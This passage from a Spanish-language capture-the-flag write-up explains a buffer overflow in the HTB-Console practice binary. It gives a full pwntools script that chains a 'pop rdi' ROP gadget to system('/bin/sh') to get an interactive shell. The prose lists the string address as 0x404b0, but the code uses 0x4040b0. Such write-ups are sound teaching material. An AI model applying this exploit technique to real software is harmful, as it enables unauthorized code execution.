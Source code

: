 En base a esto, escribimos el siguiente `exploit`, el cual nos permitirá explotar el *buffer overflow* y obtener una `shell` interactiva, a partir del *rop attack*, el cual logramos a partir de los mismos componentes del programa.

Para darles más contexto, el desbordamiento de *buffer* nos permite alterar el flujo del programa y llamar a la función `system` (`0x401381`), la que recibe como parámetro la cadena `/bin/sh` (`0x404b0`). 

Esto es posible gracias al `Rop Gadget`, el cual hace posible almacenar dicho argumento en el registro `RDI` para pasarlo a la función `system`, y ejecutar el comando correctamente.

```python
#!/usr/bin/python3

from pwn import process, p64

if __name__ == '__main__':
    p = process('./htb-console')

    system_addr = 0x401381 # 0x401381 e8bafcffff call sym.imp.system 
    POP_RDI = 0x401473 # 0x0000000000401473 : pop rdi ; ret
    name_addr = 0x4040b0 

    offset = 24
    junk = b'\x41' * offset

    payload = junk 
    payload += p64(POP_RDI) 
    payload += p64(name_addr) 
    payload += p64(system_addr) 

    p.sendlineafter(b'>> ', b'hof')
    p.sendlineafter(b'Enter your name: ', b'/bin/sh\0')    
    p.sendlineafter(b'>> ', b'flag')
    p.sendlineafter(b'Enter flag: ', payload)

    p.recv()
    p.interactive()
```

Como se logra ver en imagen el `exploit` es ejecutado correctamente, y permite obtener la `shell` interactiva.

![Untitled](/assets/img/htb/pwn/HTB-Console/Untitled%2011.png)
